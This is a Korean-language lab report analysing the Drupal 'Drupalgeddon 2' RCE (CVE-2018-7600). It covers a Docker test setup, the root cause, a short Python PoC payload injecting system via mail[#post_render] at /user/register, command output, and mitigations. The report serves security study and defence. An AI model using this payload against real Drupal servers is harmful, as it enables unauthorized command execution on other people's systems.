



# CVE-2018-7600: Drupal "Drupalgeddon 2" RCE 취약점 분석 보고서

## 1. 개요
- **취약점**: Drupal "Drupalgeddon 2" 원격 코드 실행(RCE) 취약점
- **CVE 번호**: CVE-2018-7600
- **위험도 점수 (Risk Score)**: 9.8 / 10.0
- **개념**: CMS(콘텐츠 관리 시스템)인 Drupal의 핵심 구성 요소인 'Form API'에서 발생하는 취약점으로, 공격자가 회원가입 등 외부 입력이 가능한 폼을 통해 악의적인 속성 파라미터를 주입하면, 서버가 이를 검증 없이 렌더링하는 과정에서 원격으로 시스템 명령어가 실행되는 취약점

## 2. 취약 환경 구성
- **대상 소프트웨어**: Drupal 8.5.0
- **설계도 (`docker-compose.yml`)**:
  ```yaml
  version: '3'
  services:
    drupal:
      image: drupal:8.5.0
      ports:
        - "8080:80"
  ```
- **구동 명령어**:
  ```bash
  docker compose up -d
  ```
  명령어 실행 후 `http://localhost:8080`에 접속하여 SQLite 데이터베이스 기반으로 초기 설치 프로세스 완료

## 3. 취약 조건 및 원인 분석
- **발생 원인**: Drupal은 웹 화면을 동적으로 구성하기 위해 내부적으로 **Render Array**라는 트리 구조의 배열 데이터 기술을 사용하는데, 이 Render Array의 속성 키값 중에는 부호 `#`로 시작하는 특수 명령어 속성
(예: `#post_render`, `#markup`)이 존재

- **취약점 매커니즘**: 이 버전의 Drupal은 사용자가 입력한 데이터(Form Data)에 `#` 기호가 포함되어 있는지 적절히 검증(Sanitizing)하거나 필터링하지 않기에 공격자가 회원가입창의 메일 필드 파라미터를 조작하여 배열 형태로 `#post_render` 속성에 PHP의 시스템 함수(`system`)를 지정하고, `#markup` 속성에 실행할 시스템 명령어들을 주입하여 전송하면 서버 내부에서 명령어가 그대로 실행

## 4. 재현 절차 (Reproduction Steps)
1. Docker Compose 환경을 정상 구동한 뒤 웹 서비스가 활성화된 것을 확인
2. 취약점이 존재하는 AJAX 폼 경로인 `/user/register` 구조를 타겟팅하는 파이썬 PoC 스크립트(`exploit.py`) 작성
  ```python
  # exploit.py 구조 요약
  url = target + '/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
  payload = {
      'form_id': 'user_register_form',
      '_drupal_ajax': '1',
      'mail[#type]': 'markup',
      'mail[#post_render][]': 'system',
      'mail[#markup]': 'id'  # 이 부분을 변경하여 다양한 명령어 수행 가능
  }
  response = requests.post(url, data=payload)
  ```
3. 터미널에서 스크립트를 실행하여 공격 페이로드를 전송하고 결과 확인
  ```bash
  python3 exploit.py http://localhost:8080
  ```

## 5. 실행 결과 (Results)
공격 스크립트(`exploit.py`)의 페일로드 내부 명령어를 동적으로 조작하여, 대상 웹 서버 권한 하에서 임의의 시스템 명령어를 자유롭게 실행할 수 있음을 검증하였으며, 총 3가지 시나리오에 대한 실습을 진행

### ① 기본 시스템 권한 식별 (`id`)
공격 성공 시 드루팔 웹 서버가 작동 중인 컨테이너 내부의 사용자 고유 UID 및 그룹 권한 정보(`uid=33(www-data) gid=33(www-data) groups=33(www-data)`)를 무단으로 탈취 가능


### ② 현재 세션 사용자 확인 (`whoami`)
현재 원격 코드를 실행하는 주체가 웹 프로세스 권한인 `www-data`임을 단발성 명령어를 통해 파악 가능


### ③ 서버 내부 디렉토리 파일 목록 조회 (`ls -la`)
보안상 격리되어야 하는 웹 루트 디렉토리 내부의 핵심 소스코드 파트와 환경 설정 파일(`.htaccess`, `index.php`, `core` 폴더 등) 목록을 완전히 노출시킬 수 있어 추가적인 정보 수집 가능


---

## 6. 대응 방안 (Mitigation)
1. **공식 보안 패치 및 버전업**: 취약점이 해결된 Drupal 공식 패치 버전으로 업데이트 수행
2. **입력값 필터링 및 WAF 도입**: 웹 애플리케이션 방화벽(WAF)을 통해 외부 사용자가 요청하는 파라미터 중 URL 인코딩된 `#` 기호(`%23`)나 Render Array 조작 의심 패킷 탐지 및 차단
3. **최소 권한 원칙 적용**: 현재 웹 서버가 `www-data`라는 제한된 권한으로 구동되고 있어 RCE가 발생하더라도 root 권한 탈취는 방지할 수 있었기에, 컨테이너 내부 프로세스는 반드시 Non-root 권한으로 구동하는 설정을 유지